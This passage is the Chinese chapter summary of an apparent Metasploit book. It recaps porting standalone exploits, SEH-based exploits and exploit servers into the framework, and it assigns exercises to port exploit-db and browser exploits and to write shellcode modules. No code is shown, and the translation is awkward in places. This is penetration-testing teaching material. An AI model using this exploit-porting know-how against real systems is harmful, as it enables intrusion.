涵盖了移植漏洞的头脑风暴练习，我们现在开发了在 Metasploit 中导入各种漏洞的方法。在阅读了本章之后，我们了解了如何轻松地将不同类型的利用移植到框架中。在本章中，我们开发了一些机制，从独立的漏洞中找出要点。我们看到了各种 HTTP 函数及其在开发中的使用。我们还更新了关于基于 SEH 的漏洞利用以及如何构建漏洞利用服务器的知识。

您可以尝试以下练习：

*   从[到 Metasploit 的端口 10 漏洞攻击 https://exploit-db.com/](https://exploit-db.com/)
*   至少进行 3 次浏览器攻击，并将其移植到 Metasploit
*   尝试创建自己的自定义外壳代码模块并将其移植到 Metasploit

所以，到目前为止，我们已经涵盖了大部分的写作练习。在下一章中，我们将看到如何利用 Metasploit 对各种服务进行渗透测试，包括 VOIP、DBMS、SCADA 等。